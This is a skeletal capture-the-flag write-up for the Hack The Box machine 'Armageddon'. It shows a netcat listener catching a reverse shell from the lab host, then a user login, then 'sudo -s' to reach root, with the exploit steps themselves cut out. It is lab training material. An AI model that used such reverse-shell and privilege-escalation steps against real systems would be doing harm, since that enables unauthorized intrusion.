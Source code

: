 # \_\__LeeCyberSec_\_\_
| **I'm Hades - Red/purple teamer** | **Hack The Box - Armageddon** |
| :-------------------------------- |-------------------------------|
| `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com)<br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | ![](images/1.png) |

## Information Gathering

### Openning Services

``` bash

```

## Foothold

...

At listener, I got reverse shell

``` bash
┌──(Hades㉿10.10.14.6)-[3.0:53.2]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.233] 40322
sh: no job control in this shell
sh-4.2$ id
id
uid=48(...) gid=48(...) groups=48(...)
sh-4.2$
```

## Privilege Escalation

### User Shell

...

Get user shell

```
┌──(Hades㉿10.10.14.6)-[2.8:66.2]~
└─$ ...
Last login: Thu Apr 15 08:39:14 2021 from 10.10.14.6
[...@armageddon ~]$ id
uid=1000(...) gid=1000(...) groups=1000(...)
```

### Root Shell

Run `sudo -s` to be root

```
[...@...]$ sudo -s

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dirty_sock: 
[...@armageddon ]# id
uid=0(root) gid=0(root) groups=0(root)
[...@armageddon ]#
```